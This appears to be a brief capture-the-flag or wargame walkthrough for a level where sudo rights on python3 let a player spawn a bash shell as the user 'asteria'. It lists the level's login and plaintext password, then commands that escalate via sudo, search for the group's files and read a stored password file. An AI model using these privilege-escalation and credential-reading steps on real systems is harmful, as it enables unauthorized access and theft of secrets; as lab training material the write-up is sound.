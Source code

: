 # username
asia
# password
djqWtkLisbQlrGtLYHCv
# mission contents
The user asteria is teaching us to program in python.
# method of solve
We are given `sudo` permissions as the `asteria` user with the `/usr/bin/python3` binary. We can use the oft-used Python shell stabilization technique to open a shell as asteria
```
sudo -l
sudo -u asteria python3 -c 'import pty;pty.spawn("/bin/bash")'
find / -group asteria 2>/dev/null | grep -v proc
cat /usr/share/doc/asteria_pass.txt
```

